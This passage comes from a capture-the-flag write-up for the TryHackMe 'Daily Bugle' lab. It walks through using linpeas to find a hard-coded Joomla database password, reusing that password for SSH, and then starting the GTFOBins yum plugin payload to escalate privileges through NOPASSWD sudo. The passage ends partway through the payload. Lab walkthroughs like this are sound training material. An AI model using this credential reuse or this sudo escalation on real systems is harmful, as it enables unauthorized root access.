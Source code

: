   So we have one user `jjameson` in the home directory....

  From here you know the drill, load up `linpeas.sh` and execute. Running linpeas found a couple of potentially vulnerable items associated with the server:
  ```
  /var/www/html/libraries/joomla/http/transport/cacert.pem
  /var/www/html/bin
  /var/www/html/bin/index.html
  /var/www/html/bin/keychain.php
  ```

  But linpeas also found what looks to be a hard coded password:
  ```bash
  [+] Searching passwords in config PHP files
  	public $password = 'nv5uz9r3ZEDzVjNu';
  ```

  SSH to the box using `jjameson:nv5uz9r3ZEDzVjNu` got us in, and in the home directory is our flag:
  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/Daily Bugle$ ssh jjameson@$IP
  jjameson@10.10.27.26's password:
  Last failed login: Mon May 18 01:46:55 EDT 2020 on pts/1
  There was 1 failed login attempt since the last successful login.
  Last login: Mon Dec 16 05:14:55 2019 from netwars
  [jjameson@dailybugle ~]$ ls
  user.txt
  [jjameson@dailybugle ~]$ cat user.txt
  27a260fe3cba712cfdedb1c86d80442e
  [jjameson@dailybugle ~]$
  ```


4. What is the root flag?

  Starting with some low-hanging fruit, we see that `jjameson` can run yum as sudo with NOPASSWD, interesting.
  ```bash
  [jjameson@dailybugle ~]$ sudo -l
  Matching Defaults entries for jjameson on dailybugle:
      !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
      USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
      env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

  User jjameson may run the following commands on dailybugle:
      (ALL) NOPASSWD: /usr/bin/yum
  ```

  So, courtesy of [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), we can use the following payload to escalate our priveleges leveraging that we can execute `yum` as root:
  ```bash
  TF=$(mktemp -d)
  cat >$TF/x<<EOF
  [main]
  plugins=1
  pluginpath=$TF
  pluginconfpath=$TF
  EOF

  cat >$TF/y.conf<<EOF
  [main]
  enabled=1
  EOF

  cat >$TF/y.py<<EOF
  import os
  ```